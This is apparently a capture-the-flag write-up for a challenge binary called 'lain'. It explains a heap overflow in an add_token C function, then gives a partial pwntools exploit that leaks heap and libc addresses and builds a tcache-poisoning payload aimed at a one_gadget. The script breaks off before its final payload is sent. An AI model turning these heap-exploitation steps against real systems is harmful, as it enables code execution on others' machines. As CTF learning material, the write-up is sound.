 #### Overflow
```c
void add_token(const char *token_str, size_t token_len, Token **beg, Token **end) {
  Token *new_token = calloc(1, sizeof (Token));
  if (new_token == NULL) {
    fprintf(stderr, "I just don't know what went wrong...\n");
    exit(-1);
  }
  new_token->next = NULL;
  new_token->str = calloc(1, strlen(token_str) + 1);
  if (new_token->str == NULL) {
    fprintf(stderr, "I just don't know what went wrong...\n");
    exit(-1);
  }
  memcpy(new_token->str, token_str, token_len);
}
```
The overflow vulnerability exists in the `add_token` function.

A string that can be manipulated is entered in `strlen` of `calloc(1, strlen(token_str) + 1);`. If a `NULL` character is included, a chunk smaller than the size of the string can be allocated.

We can use this Vuln to abuse heap.

### Exploit
```python
from pwn import *

#p = process("./lain")
p = remote("50790b2.678470.xyz", 31454)
e = ELF("./lain")

context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'

def leak(addr):
    p.sendlineafter(b"<<<", "(+ \"\" " + str(addr) + ")")

a = "a" * 0x98
p.sendlineafter(b"<<<", f"(+ 0 \"a\")")
res = int(p.recvline().strip(), 10)
print(hex(res))
p.sendlineafter(b"<<<", f"(+ \"{a}\" \"{a}\")")
p.sendlineafter(b"<<<", f"(+ \"{a}\" \"{a}\")")
p.sendlineafter(b"<<<", f"(+ \"\" \"aaaaaaaa\")")

key = res >> 12
print(key)

off = res + 0x698
leak(off)
p.recvn(1)
libc_base = u64(p.recvn(6).ljust(8, b"\x00")) - 0x21ace0
og = libc_base + 0xebd38
print(hex(og))

# gdb.attach(p)

p.sendlineafter(b"<<<", b"(+ " + p64(0) *2 + b" " + p64(0x411) *4 + p64((libc_base+0x21a000) ^ key) + b")")

b = b"a" * 0x98 + p64(og)[:6]

```